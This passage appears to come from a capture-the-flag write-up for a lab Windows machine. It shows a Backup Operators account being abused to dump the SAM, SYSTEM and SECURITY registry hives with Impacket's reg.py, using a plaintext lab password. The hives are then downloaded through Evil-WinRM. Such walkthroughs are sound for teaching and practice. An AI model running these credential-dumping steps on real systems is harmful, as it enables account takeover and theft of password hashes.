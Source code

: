 ```bash
User name                    emily.oscars
Full Name                    Emily Oscars
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/22/2024 2:20:17 PM
Password expires             Never
Password changeable          8/23/2024 2:20:17 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/19/2025 5:49:08 PM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Interesting, this user is memberof `Backup Operators` , lets find a way to abuse that 

## Abusing Backup Operator’s privileges

### Writing registry hives to temp folder

Online i found multiple ways to do this, i preferred the following way:

```bash
reg.py emily.oscars:'Q!3@Lp#M6b*7t*Vt'@cicada.htb backup -o 'C:\windows\temp\'
```

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to C:\windows\temp\\SAM.save
[*] Saved HKLM\SYSTEM to C:\windows\temp\\SYSTEM.save
[*] Saved HKLM\SECURITY to C:\windows\temp\\SECURITY.save
```

### Download registry hives locally

Then navigate to the temp folder on winrm and download the 3 registry hives above:

```bash
*Evil-WinRM* PS C:\windows\temp> download SAM.save
Info: Downloading C:\windows\temp\SAM.save to SAM.save               
Info: Download successful!

*Evil-WinRM* PS C:\windows\temp> download SYSTEM.save
Info: Downloading C:\windows\temp\SYSTEM.save to SYSTEM.save           
Info: Download successful!

*Evil-WinRM* PS C:\windows\temp> download SECURITY.save
Info: Downloading C:\windows\temp\SECURITY.save to SECURITY.save       
Info: Download successful!
```
